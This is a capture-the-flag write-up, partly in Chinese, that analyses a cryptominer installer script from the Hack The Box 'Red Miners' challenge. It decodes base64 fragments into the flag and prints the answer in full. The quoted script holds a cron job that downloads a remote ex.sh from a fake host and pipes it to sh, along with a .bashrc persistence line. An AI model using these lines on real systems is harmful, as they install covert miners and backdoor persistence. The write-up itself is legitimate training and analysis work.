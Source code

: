 # Red Miners

:::note  CHALLENGE DESCRIPTION

VERY EASY

In the race for Vitalium on Mars, the villainous Board of Arodor resorted to desperate measures, needing funds for their mining attempts. They devised a botnet specifically crafted to mine cryptocurrency covertly. We stumbled upon a sample of Arodor's miner's installer on our server. Recognizing the gravity of the situation, we launched a thorough investigation. With you as its leader, you need to unravel the inner workings of the installation mechanism. The discovery served as a turning point, revealing the extent of Arodor's desperation. However, the battle for Vitalium continued, urging us to remain vigilant and adapt our cyber defenses to counter future threats.

:::

福建提供了一个恶意载荷的部署脚本 `miner_installer.sh`

在其中，基于关键词 `HTB` 抓取关键信息

```shell
echo "ZXhwb3J0IHBhcnQ0PSJfdGgzX3IzZF9wbDRuM3R9Ig==" | base64 -d >> /home/$USER/.bashrc

------

check_if_operation_is_active() {
  local url="http://tossacoin.htb/cGFydDI9Il90aDMxcl93NHkiCg=="

  if curl --silent --head --request GET "$url" | grep "200 OK" >/dev/null; then
    echo "Internet is enabled."
  else
    exit 1
  fi
}

------

crontab -l | sed '/#wget/d' | crontab -
crontab -l | sed '/#curl/d' | crontab -
crontab -l | grep -e "tossacoin.htb" | grep -v grep
if [$? -eq 0]; then
  echo "cron good"
else
  (
    crontab -l 2>/dev/null
    echo '* * * * * $LDR http://tossacoin.htb/ex.sh | sh & echo -n cGFydDE9IkhUQnttMW4xbmciCg==|base64 -d > /dev/null 2>&1'
  ) | crontab -
fi

------

checkExists() {
  CHECK_PATH=$1
  MD5=$2
  sum=$(md5sum $CHECK_PATH | awk '{ print $1}')
  retval=""
  if ["$MD5" = "$sum"]; then
    echo >&2 "$CHECK_PATH is $MD5"
    retval="true"
  else
    echo >&2 "$CHECK_PATH is not $MD5, actual $sum"
    retval="false"
  fi

  dest=$(echo "X3QwX200cnN9Cg=="|base64 -d)
  if [[! -d $dest]];
  then
    mkdir -p "$BIN_PATH/$dest"
  fi
  cp $CHECK_PATH $BIN_PATH/$dest
  echo "$retval"
}
```

找到 Base64 编码后的数据

```plaintext
cGFydDE9IkhUQnttMW4xbmciCg== --> part1="HTB{m1n1ng"
cGFydDI9Il90aDMxcl93NHkiCg== --> part2="_th31r_w4y"
X3QwX200cnN9Cg== --> _t0_m4rs}
ZXhwb3J0IHBhcnQ0PSJfdGgzX3IzZF9wbDRuM3R9Ig== --> export part4="_th3_r3d_pl4n3t}"
```

```plaintext title="Flag"
HTB{m1n1ng_th31r_w4y_t0_m4rs_th3_r3d_pl4n3t}
```
